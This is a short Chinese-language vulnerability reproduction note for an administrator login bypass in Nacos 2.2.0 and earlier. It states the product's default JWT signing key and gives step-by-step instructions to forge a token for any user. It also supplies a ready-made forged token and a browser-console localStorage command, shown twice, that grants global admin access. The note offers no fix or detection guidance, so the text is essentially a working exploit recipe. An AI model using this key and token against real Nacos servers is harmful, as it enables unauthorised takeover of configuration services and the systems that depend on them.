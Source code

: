 
## Nacos <= 2.2.0 任意管理员登录漏洞

### 前置条件
> 要配置了public(保留空间)的

### 漏洞原理：

鉴权体系默认使用的密钥为：SecretKey012345678901234567890123456789012345678901234567890123456789
任意攻击者可以使用这个伪造生成任意用户的accessToken用于进行后端接口访问。

### 漏洞复现

> 1、打开目标网站Nacos的登录页面

> 2、使用https://jwt.io/在线生成JWT token，使用上面的密钥，生成任意用户的accessToken.

> 3、替换accessToken，在F12 控制台执行下面的代码
```localStorage.setItem("token", "{\"accessToken\":\"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYwNTYyOTE2Nn0.2TogGhhr11_vLEjqKko1HJHUJEmsPuCxkur-CfNojDo\",\"tokenTtl\":18000,\"globalAdmin\":true}")```

> 4、然后访问Nacos的路径即可成功冒充任意用户以管理员权限登录
```
localStorage.setItem("token", "{\"accessToken\":\"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYwNTYyOTE2Nn0.2TogGhhr11_vLEjqKko1HJHUJEmsPuCxkur-CfNojDo\",\"tokenTtl\":18000,\"globalAdmin\":true}")
```

